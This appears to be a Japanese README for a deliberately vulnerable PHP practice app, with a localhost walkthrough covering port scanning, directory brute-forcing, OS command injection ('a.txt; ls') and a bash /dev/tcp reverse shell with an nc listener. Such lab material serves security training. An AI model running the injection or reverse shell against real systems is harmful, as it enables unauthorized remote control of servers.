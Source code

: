 # vulnable_sample
## use
### easy use way
```php -S localhost:8080```
### exploit
ポートスキャン  
```nmap -p- localhost
> 8080/tcp closed http-proxy
```
ディレクトリブルートフォース　　
```
dirb http://localhost
> + http://localhost:8080/command (CODE:200|SIZE:434)                       
> + http://localhost:8080/robots.txt (CODE:200|SIZE:32)
```
web調査
```
ブラウザでhttp://localhost:8080を開くと空ページ  
robots.txtを確認するとcommandというページがある事がわかる  
/commandにアクセスするとOpen Fileというページ  
ソースコードを見るとサイトの使い方が書いている  
```
エクスプロイト
```
OSコマンドインジェクションを行える
a.txt; ls
でlsコマンドが実行できる
```
リバースシェル
```
# 手元のPCで実行
nc -nvlp 1234
```
```
# 対象のPCに対して
bash -i >& /dev/tcp/127.0.0.1/1234 0>&1
```
---
以上の流れでサーバのIPアドレスだけからWebページが空いている事を見つけて，よくあるrobots.txtからのディレクトリの発見や，表からは見えないディレクトリの発見を行う．そこから，ソースコードの情報を元に攻撃方法を推測しコマンド実行を行う(ファイルを読み込んでるのか他の方法OSコマンドからファイルを出力してるのか...).攻撃をより行いやすいようにリバースシェルの接続を行う．

